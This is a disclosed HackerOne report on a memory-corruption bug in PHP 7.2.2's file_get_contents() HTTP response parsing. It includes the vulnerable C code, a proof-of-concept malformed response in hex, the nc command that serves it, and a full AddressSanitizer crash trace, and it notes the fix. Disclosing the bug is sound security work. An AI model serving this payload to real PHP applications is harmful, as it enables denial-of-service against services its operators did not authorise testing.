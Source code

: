 # memory corruption while parsing HTTP response

## Report Details
- **Report ID**: 320222
- **URL**: https://hackerone.com/reports/320222
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-27T09:14:23.915Z
- **Disclosed**: 2019-10-14T04:37:33.702Z

## Reporter
- **Username**: xixabangm4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
In the network interfacing PHP API file_get_contents(), a mechanism is implemented to parse the HTTP/S response from the remote host. A vulnerability is found when the vulnerable PHP build processes certain malformed HTTP/S response packets, resulting an array negative indexing. 

Vulnerable code at:
```
php_stream_url_wrap_http_ex /home/weilei/php-7.2.2/ext/standard/http_fopen_wrapper.c:723

			if (tmp_line[tmp_line_len - 1] == '\n') {
				--tmp_line_len;
				if (tmp_line[tmp_line_len - 1] == '\r') {
					--tmp_line_len;
				}
```

If the proceeding buffer contains '\r' as either controlled content or junk on stack, under a realistic setting (non-ASAN), tmp_line_len could go to -1, resulting in an extra large string being copied subsequently. Under ASAN a segfault can be observed.
```
$ bin/php --version
PHP 7.2.2 (cli) (built: Feb 20 2018 08:51:24) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
```

Test script:
```
---------------
$ xxd -g 1 poc
0000000: 30 30 30 30 30 30 30 30 30 31 30 30 0a 0a        000000000100..
```
```
$ nc -vvlp 8080 < poc
Listening on [0.0.0.0] (family 0, port 8080)
Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 53083)
GET / HTTP/1.0
Host: localhost:8080
Connection: close

$ bin/php -r 'file_get_contents("http://localhost:8080");'
```
Expected result:
----------------
NO CRASH

Actual result:
```
--------------
$ bin/php -r 'file_get_contents("http://localhost:8080");'
=================================================================
==26249== ERROR: AddressSanitizer: stack-buffer-overflow on address 0xbfc038ef at pc 0x8aa393b bp 0xbfc02eb8 sp 0xbfc02eac
READ of size 1 at 0xbfc038ef thread T0
    #0 0x8aa393a in php_stream_url_wrap_http_ex /home/weilei/php-7.2.2/ext/standard/http_fopen_wrapper.c:723
    #1 0x8aa61fb in php_stream_url_wrap_http /home/weilei/php-7.2.2/ext/standard/http_fopen_wrapper.c:979
    #2 0x8b8b115 in _php_stream_open_wrapper_ex /home/weilei/php-7.2.2/main/streams/streams.c:2027
    #3 0x8918dc0 in zif_file_get_contents /home/weilei/php-7.2.2/ext/standard/file.c:550
    #4 0x867993a in phar_file_get_contents /home/weilei/php-7.2.2/ext/phar/func_interceptors.c:224
    #5 0x91ee267 in ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER /home/weilei/php-7.2.2/Zend/zend_vm_execute.h:573
    #6 0x91ee267 in execute_ex /home/weilei/php-7.2.2/Zend/zend_vm_execute.h:59731
    #7 0x923c13c in zend_execute /home/weilei/php-7.2.2/Zend/zend_vm_execute.h:63760
    #8 0x8cba975 in zend_eval_stringl /home/weilei/php-7.2.2/Zend/zend_execute_API.c:1082
    #9 0x8cbaf66 in zend_eval_stringl_ex /home/weilei/php-7.2.2/Zend/zend_execute_API.c:1123
    #10 0x8cbb06b in zend_eval_string_ex /home/weilei/php-7.2.2/Zend/zend_execute_API.c:1134
    #11 0x9244455 in do_cli /home/weilei/php-7.2.2/sapi/cli/php_cli.c:1042
    #12 0x9246b37 in main /home/weilei/php-7.2.2/sapi/cli/php_cli.c:1404
    #13 0xb5e8ca82 (/lib/i386-linux-gnu/libc.so.6+0x19a82)
    #14 0x80656d0 in _start (/home/weilei/php7_asan/bin/php+0x80656d0)
Address 0xbfc038ef is located at offset 607 in frame <php_stream_url_wrap_http_ex> of T0's stack:
  This frame has 13 object(s):
    [32, 36) 'transport_string'
    [96, 100) 'errstr'
    [160, 164) 'http_header_line_length'
    [224, 232) 'timeout'
    [288, 296) 'req_buf'
    [352, 360) 'tmpstr'
    [416, 432) 'ssl_proxy_peer_name'
    [480, 496) 'http_header'
    [544, 576) 'buf'
    [608, 736) 'tmp_line'
    [768, 1792) 'location'
    [1824, 2848) 'new_path'
    [2880, 3904) 'loc_path'
HINT: this may be a false positive if your program uses some custom stack unwind mechanism or swapcontext
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow /home/weilei/php-7.2.2/ext/standard/http_fopen_wrapper.c:723 php_stream_url_wrap_http_ex
Shadow bytes around the buggy address:
  0x37f806c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x37f806d0: 00 00 f1 f1 f1 f1 04 f4 f4 f4 f2 f2 f2 f2 04 f4
  0x37f806e0: f4 f4 f2 f2 f2 f2 04 f4 f4 f4 f2 f2 f2 f2 00 f4
  0x37f806f0: f4 f4 f2 f2 f2 f2 00 f4 f4 f4 f2 f2 f2 f2 00 f4
  0x37f80700: f4 f4 f2 f2 f2 f2 00 00 f4 f4 f2 f2 f2 f2 00 00
=>0x37f80710: f4 f4 f2 f2 f2 f2 00 00 00 00 f2 f2 f2[f2]00 00
  0x37f80720: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 f2 f2
  0x37f80730: f2 f2 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x37f80740: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x37f80750: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x37f80760: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:     fa
  Heap righ redzone:     fb
  Freed Heap region:     fd
  Stack left redzone:    f1
  Stack mid redzone:     f2
  Stack right redzone:   f3
  Stack partial redzone: f4
  Stack after return:    f5
  Stack use after scope: f8
  Global redzone:        f9
  Global init order:     f6
  Poisoned by user:      f7
  ASan internal:         fe
==26249== ABORTING
Aborted
```

Details can be found at https://bugs.php.net/bug.php?id=75981
The bug is fixed in the security repo and is pending CVE assignment.

## Impact

A DoS can be triggered when certain conditions are met, or other implications from the subsequent string operations. The affected mechanism is popular as file_get_contents() is a very popular API among PHP based web applications.

## Attachments
No attachments
